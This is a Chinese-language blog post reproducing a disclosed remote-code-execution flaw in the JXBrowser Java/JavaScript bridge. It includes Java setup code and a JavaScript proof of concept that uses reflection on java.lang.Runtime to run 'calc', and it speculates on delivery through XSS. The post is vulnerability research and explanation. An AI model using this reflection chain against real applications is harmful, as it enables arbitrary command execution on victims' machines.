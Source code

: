 ```yaml
---
layout:		post
title:		JXBrowser JavaScript/Java bridge RCE
data:		2016-12-14
author:		"dogewatch"
header-img:	"img/post-bg-js-module.jpg"
tags:
    - web
    - 漏洞
---
```


> heiweigo

# 前言

BurpSuite的实验室出的漏洞报告，然后知道创宇的404实验室翻译了一下，不过个人觉得这篇翻译真的就只是翻译，可能是因为这个洞影响不大吧。对于对JAVA无限陌生的我来说，索性自己调一下好了。[原文链接](http://blog.portswigger.net/2016/12/rce-in-jxbrowser-javascriptjava-bridge.html)

# 正文

## JXBrowser

JXBrowser是一个基于chromium的JAVA浏览器组件，支持各种操作平台，常用来作为java应用的内置浏览器，而这个漏洞是PortSwigger实验室在今年12月发布在他们博客上的。

## RCE和调试

漏洞的主要原因是因为JXBrowser支持的javascript调用java时，没有对调用java的属性和方法做限制，导致可以直接命令执行。

### 搭建环境

官网下载最新版的[JXBrowser6.9](http://cloud.teamdev.com/downloads/jxbrowser/jxbrowser-6.9-cross-desktop-win_mac_linux.zip)，同时还需要领一份期限30天的许可证书。然后就可以开始建一个测试项目了，我用的是IntelliJ IDEA(毕竟学生免费)，在项目中导入刚才下载的所有jar包和license.jar。
![img](/img/post/jxbrowser-1.png)

### 复现

在JXBrowser中，建立JAVA和JavaScript之间的连接主要靠Browser类下的onScriptContextCreated方法。

```java
Browser browser = new Browser();
......
......
browser.addScriptContextListener(new ScriptContextAdapter() {
            @Override
            public void onScriptContextCreated(ScriptContextEvent event) {
                Browser browser = event.getBrowser();
                JSValue window = browser.executeJavaScriptAndReturnValue("window");
                window.asObject().setProperty("someObj", new someJavaClass());
            }
        });
```

通过`JSValue window = browser.executeJavaScriptAndReturnValue("window");`获取浏览器的BOM对象后，就能用`setProperty`将java的类设置到javascript里去了。这里我们新建一个someJavaClass类用来输出一些信息。(因为在JXBrowser里还不知道能不能打开devtools来查看调试信息)

```java
public class someJavaClass {
    public void javaFunction(String message){
        System.out.println(message);
    }
}
```

java部分的代码就到这了，通过给window对象添加了一个java自己的类完成java到javascript之间的连接。而在javascript代码中，则可以通过这个类直接做到命令执行。

漏洞作者提供了一段代码来检测windows下的java对象是否存在

```javascript
setTimeout(function f(){
	if(window.someObj && typeof window.someObj.javaFunction === 'function'){
		window.someObj.javaFunction("Called Java function from JavaScript");
	}else{
		setTimeout(f, 0);
	}
}, 0);
```

这个时候就可以用`window.someObj`来搞事了。首先试一下getRuntime()能不能获取到运行实例

```javascript
window.someObj.getClass().forName('java.lang.Runtime').getRuntime();  
```

却提示找不到runtime方法：

```
Neither public field nor method named 'getRuntime' exists in the java.lang.Class Java object.
```

但我们可以试试用反射的方法来获取当前的运行实例：

```javascript
field = window.someObj.getClass().forName('java.lang.Runtime').getDeclaredField("currentRuntime");  
```

很幸运地发现没有报错，这意味着离弹计算器只差一步了

```javascript
try{
	field = window.someObj.getClass().forName('java.lang.Runtime').getDeclaredField("currentRuntime");  
	field.setAccessible(true);  
	runtime = field.get(1);  
	runtime.exec("calc");  
}catch(error){
	window.someObj.javaFunction(error);
}
```

boom！
![img](/img/post/jxbrowser-2.png)

### 作者遇到的一些问题

作者在getRuntime()失败后居然没想到用反射来试试，反而去尝试了一些别的方法。

在使用ProcessBuilder的时候失败了

```javascript
window.someObj.getClass().forName("java.lang.ProcessBuilder").newInstance("open","-a Calculator");
```

报错信息是

```
NoSuchMethodException: java.lang.Class.newInstance(java.lang.String)
```

作者说这是参数类型错误，需要一个数组，但是在我这里的报错信息可以看到，根本都没有获取到ProcessBuilder对象。随后他尝试使用java.net.Socket 来建立一个连接，能够成功创建这个对象，但是在调用connect方法时又遇到了问题，参数类型不对，javascript的数组和java的数组不是一个类型，而且在javascript代码中没办法将其转换成java的类型。

### 利用场景猜测与官方的修补措施

说实话因为对JAVA开发一片茫然，所以这个漏洞的利用场景只是在调试过程中突发想到了一个点。假如说某款java应用内置了这个JXBrowser浏览器，那么攻击者可以在默认页面或者是这个应用的其他页面中找到JAVA与Javascript连接的那个对象，这个对象必然是会在js代码中声明的。然后就可以构造攻击代码嵌入到自己的页面或者是利用该应用页面中的XSS把攻击代码嵌入到应用的页面中，最好是在默认页面上有个XSS。一旦受害者用这个JXBrowser浏览器打开这这些页面，就成功触发了payload，完成了攻击。

目前官方的解决办法是添加了一个[@JSAccessible](https://jxbrowser.support.teamdev.com/support/solutions/articles/9000099124--jsaccessible)来设置可以调用的方法的白名单，但是如果开发者没有使用这个功能的话，则依然存在这个漏洞。

# 后记

讲道理这个洞还是挺简单的，就是利用方式需要对java有所了解才能想得到。题外话：现在写markdown都用Typora了，挺好用的。但是之前发现了他们一个本地域的XSS漏洞报告给他们之后居然只是得到个感谢，蛋蛋地忧桑，对个人开发者果然不能奢望太多。
![img](/img/post/jxbrowser-3.png)